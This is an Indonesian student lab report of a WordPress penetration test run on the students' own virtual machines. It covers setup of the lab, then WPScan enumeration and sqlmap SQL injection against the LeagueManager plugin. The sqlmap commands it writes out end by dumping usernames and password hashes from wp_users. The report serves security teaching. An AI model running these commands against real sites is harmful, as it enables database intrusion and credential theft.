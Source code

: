 #### Anggota:
* I Made Fandy Aditya Wirana    5114100026
* Muhammad Fahmi Abdurrahman    5114100028
* I Gede Putu Nobby Aswi Phala  5114100048

### Pendahuluan

  Laporan ini berisi uji penetrasi Wordpress. OS server yang digunakan yaitu Ubuntu Server 16.04.3 dan OS penyerang yang digunakan yaitu Kali Linux 2017.1. Tools yang digunakan untuk menyerang yaitu WPScan, sqlmap.
  
### Dasar Teori

  * #### Ubuntu Server
    Ubuntu Server Edition mendukung arsitektur Intel x86 dan AMD64. Edisi server menyediakan fitur seperti file/print services, web hosting, email hosting, dll. Ada beberapa perbedaan antara edisi server dan edisi desktop walaupun keduanya menggunakan repositori apt yang sama. Perbedaan utamanya adalah, pada edisi server X window environment tidak diinstall scara standar, walaupun antarmuka grafik dapat diinstall secara manual seperti Ubuntu desktop. CD Ubuntu Server Edition juga memiliki pilihan untuk menginstall Ubuntu Enterprise Cloud.
    
  * #### Kali Linux
    Kali Linux adalah distribusi Linux berbasis Debian yang ditujukan untuk uji penetrasi dan pengecekan keamanan. Kali memiliki ratusan tools yang disematkan untuk menjalankan berbagai task yang berkaitan dengan keamanan, seperti uji penetrasi, forensik digital, dan *Reverse Engineering*. Kali Linux dikembangkan oleh Offensive Security, perusahaan yang berkembang di bidang keamanan informasi.
    
  * #### WPScan
    WPScan adalah tools untuk mendeteksi keamanan dari wordpress dengan metode blackbox. Fitur yang dimiliki antara lain:
    * pencacah username
    * multithreaded password bruteforcing
    * pencari versi plugin WordPress dan
    * pencari kerentanan sistem web wordpress
    
  * #### sqlmap
    sqlmap adalah alat pengujian open source yang mendeteksi dan mengeksploitasi kelemahan dalam SQL injection dan mengambil alih server database. Muncul dengan mesin pendeteksi yang hebat, banyak fitur untuk tester penetrasi akhir dan berbagai switch yang bertahan dari sidik jari database, melebihi pengambilan data dari database, untuk mengakses sistem berkas yang mendasarinya dan menjalankan perintah pada sistem operasi melalui sistem out- koneksi band.
    Mendukung  DBMS MySQL, Oracle, PostgreSQL, Microsoft SQL Server, Microsoft Access, IBM DB2, SQLite, Firebird, Sybase, SAP MaxDB, HSQLDB dan Informix.

### Instalasi Ubuntu Server + OpenSSH Server

  1. Download file instalasi Ubuntu Server dan mount ke virtual machine
      https://www.ubuntu.com/download/server
      
  2. Pilih "*Install Ubuntu Server*"
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-choose-server.png)
  3. Set Hostname, Username, dan Password
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-host-server.png)
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-user-server.png)
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-pwd-server.png)
  4. Set Partition Disk Menjadi *Guided - use entire disk*
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-part-server.png)
  5. Tunggu instalasi selesai
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-wait-server.png)
  6. Lakukan konfigurasi lainnnya
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/config-taskkel-server.png)
  7. Pilih software yang akan diinstall
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-soft-server.png)
  8. Tunggu instalasi software
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-soft-wait-server.png)
  9. Install Bootloader Grub
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-grub-server.png)
  10. Selesai!!!
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/done-server.png)
### Instalasi Kali Linux
  
  1. Download file instalasi Kali Linux dan mount ke virtual machine
      https://www.kali.org/downloads/

  2. Pilih *Graphical Install*
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-choose-kali.png)
  3. Set Hostname, Username, dan Password
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-host-kali.png)
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-user-kali.png)
  4. Set Partition Disk menjadi *Guided - use entire disk*
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-part-kali.png)
  5. Set Disk yang akan dibuat menjadi partisi
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-disk-kali.png)
  6. Set Partition Scheme menjadi *All files in one partition*
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-scheme-kali.png)
  7. Tunggu Instalasi Selesai
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-wait-kali.png)
  8. Selesai!!!

### Instalasi LAMP server

  1. Gunakan perintah seperti berikut
     >```sudo tasksel install_lamp-server```
  2. Tunggu file didownload
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20LAMP%20dan%20wordpress%20di%20ubuntu/2.PNG)
  3. Set password untuk user root dari mysql
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20LAMP%20dan%20wordpress%20di%20ubuntu/3.PNG)
  4. Tunggu instalasi selesai
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20LAMP%20dan%20wordpress%20di%20ubuntu/4.PNG)
  5. Selesai!!!
    
### Instalasi Wordpress
  1. Dowload Wordpress dengan perintah seperti berikut
  >```wget http://wordpress.org/latest.zip```
  2. Extract file ke /var/www/html
  >```sudo unzip latest.zip -d /var/www/html```
  3. Ganti kepemilikan dan hak akses dari folder wordpress
  >```sudo chown -R www-data:www-data /var/www/html/wordpress///```
  >```sudo chmod -R 775 /var/www/html/wordpress/```
  4. Berikan Port Forwarding Rules ke Vitual Machine agar dapat diakses dari luar
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20LAMP%20dan%20wordpress%20di%20ubuntu/4-wp.PNG)
  5. Berikan rules firewall di ubuntu server, lalu restart firewall
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20LAMP%20dan%20wordpress%20di%20ubuntu/5-wp.PNG)
  6. Buka mysql, lalu buat database dengan nama wordpress
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20LAMP%20dan%20wordpress%20di%20ubuntu/6-wp.PNG)
  7. Buka halaman depan dari Wordpress, lalu akan ada inisialisasi
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20LAMP%20dan%20wordpress%20di%20ubuntu/7-wp.png)
  8. Isi konfigurasi database dengan yang telah dibuat sebelumnya
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20LAMP%20dan%20wordpress%20di%20ubuntu/8-wp.png)
  9. Set konfigurasi website
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20LAMP%20dan%20wordpress%20di%20ubuntu/9-wp.png)
  10. Selesai!!!
    ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20LAMP%20dan%20wordpress%20di%20ubuntu/10-wp.png)

### Instalasi Plugin
   1. Login
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20Video%20Player%20wordpress/1-plugin.png)
    2. Masuk ke menu Plugin -> Add New
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20Video%20Player%20wordpress/2-plugin.png)
    3. Upload dan klik Install Now
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20Video%20Player%20wordpress/3-plugin.png)
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20LeagueManager%20di%20wordpress/3.1-plugin.png)
    4. Tunggu instalasi selesai, lalu aktivasi
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20Video%20Player%20wordpress/4-plugin.png)
    5. Selesai!!!
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20Video%20Player%20wordpress/5-plugin.png)
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20LeagueManager%20di%20wordpress/5.1-plugin.png)
 
### Uji Penetrasi
   * #### WPScan
    1. Lakukan tes dengan cara berikut
    > ```wpscan --url http://192.168.1.1 --enumerate -u```
    2. Jika berhasil akan menampilkan informasi kelemahan plugin
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/wpscan%20dan%20sqlmap/2.PNG)
    3. Tambahkan data pada LeagueManager pada panel adming di wordpress
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/wpscan%20dan%20sqlmap/3.PNG)
   * sqlmap
    1. Lakukan command di bawah terlebih dahulu untuk mengetahui informasi database
    > ```sqlmap --url="192.168.1.1/wordpress/?season=2017&league_id=1" -p league_id --dbs```
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/wpscan%20dan%20sqlmap/1-sinj.PNG)
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/wpscan%20dan%20sqlmap/2-sinj.PNG)
    2. Dapatkan informasi tabel dengan command dibawah ini
    > ```sqlmap --url="192.168.1.1/wordpress/?season=2017&league_id=1" -D wordpress --tables```
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/wpscan%20dan%20sqlmap/3-sinj.PNG)
    3. Dapatkan informasi kolom pada tabel dengan command dibawah ini
    > ```sqlmap --url="192.168.1.1/wordpress/?season=2017&league_id=1" -T wp_users --columns
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/wpscan%20dan%20sqlmap/4-sinj.PNG)
    4. Dapatkan informasi user dan password dengan command dibawah ini
    > ```sqlmap --url="192.168.1.1/wordpress/?season=2017&league_id=1" -T wp_users -C user_login,user_pass --dump
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/wpscan%20dan%20sqlmap/5-sinj.PNG)
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/wpscan%20dan%20sqlmap/6-sinj.PNG)
  
  





### Kesimpulan dan Saran
   Serangan SQL Injection adalah memodifikasi perintah sql dari aplikasi client dengan cara menyisipkan kedalamnya. Dalam hal ini terdapat plugin dari wordpress yang tidak di optimasi querynya, sehingga rentan SQL Injection tersebut. Dengan tools tools tersebut, developer dapat memeriksa keamanan dari plugin dan seisi websitenya, sehingga developer dapat memperbaharui plugin atau mengganti plugin yang tidak aman.
